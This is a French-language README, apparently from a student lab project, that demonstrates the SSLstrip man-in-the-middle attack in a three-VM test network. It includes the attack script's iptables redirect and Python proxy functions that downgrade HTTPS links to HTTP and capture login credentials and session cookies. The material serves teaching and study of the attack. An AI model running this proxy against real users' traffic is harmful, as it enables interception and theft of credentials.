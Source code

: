 # Attaque SSLstrip

L'attaque SSLstrip a été présentée pour la première fois par Moxie à la Blackhat de 2009.

Cette attaque consiste à remplacer dans les requêtes HTTP, toutes les références à des URL pointant vers des liens HTTPS par leurs version HTTP. Cette attaque était efficace notamment lorsque seule la page de login était sécurisée en HTTPS mais que le reste du site utilisait le protocole HTTP.

----------------------------------------------

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topologie](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/topology) des machines mise en place :

```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Cette topologie n'est pas forcément réaliste car rare sont les cas où l'attaquant est dans le réseau du client attaqué.

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut l'autorité de certification dans firefox. Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/grave/start.sh)

## Machine "opeth" (www.opeth.local)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connexions HTTPS a été généré avec les scripts [create-ca.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/create-ca.sh) et [new-cert.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/new-cert.sh) de la façon suivante :

```
$ cd CA
$ ./create-ca.sh
$ ./new-cert.sh
```

Le serveur héberge deux pages :

  - une page [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php) que l'on accéde en HTTP et présentant un formulaire de login.

  - une page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php) que l'on accéde en HTTPS depuis la page index.php.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/tree/master-b64c24f/sslstrip/immortal/attack.sh).

Cette VM est configurée pour forwarder les paquets entre opeth et grave.


------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt qemunet) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave, que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](../medias/sslstrip/screen1.png?raw=true)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](../medias/sslstrip/screen2.png?raw=true)

Nous arrivons alors sur la page secure.php, en HTTPS : la machine immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](../medias/sslstrip/screen3.png?raw=true)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
```

La règle iptables permet de rediriger les flux TCP à destination du port 80 (HTTP) vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

![screen4](../medias/sslstrip/screen4.png?raw=true)

### Explication du code du proxy

Le code du proxy est dans le fichier [sslstrip.py](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/sslstrip.py).

#### Réception des requêtes

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

- fermer la connexion (le client ou le serveur a fermé sa socket)
- établir une connexion https, dans le cas où le client demande la page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php)
- établir une connexion http, dans le cas où le client demande la page d'accueil [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php)

Voici la fonction implémentant la reception d'une requête HTTP :

```python
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)

```

A la fin, on transforme tous les liens __https__ trouvé en __http__ et on recalcule la taille de la requête (entête Content-Length).

#### Transformation des liens

La transformation se fait à l'aide d'une expression régulière qui remplace __https://__ par __http://__ dans les données HTTP.

```python
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)
```

#### Recalcule de l'entête Content-Length

Il faut ensuite recalculer l'entête Content-Length, en se basant sur le début des données HTTP situées après la séquence "\r\n\r\n" :

```python
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
```

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que tous les liens https:// sont remplacés par http://.

La machine immortal est donc capable d'intercepter les échanges réalisés sur la page secure.php. Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](../medias/sslstrip/screen5.png?raw=true)

Nous constatons que nous arrivons sur la page secure.php en HTTP : notre navigation n'est pas sécurisée !

![screen6](../medias/sslstrip/screen6.png?raw=true)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session :

![screen7](../medias/sslstrip/screen7.png?raw=true)
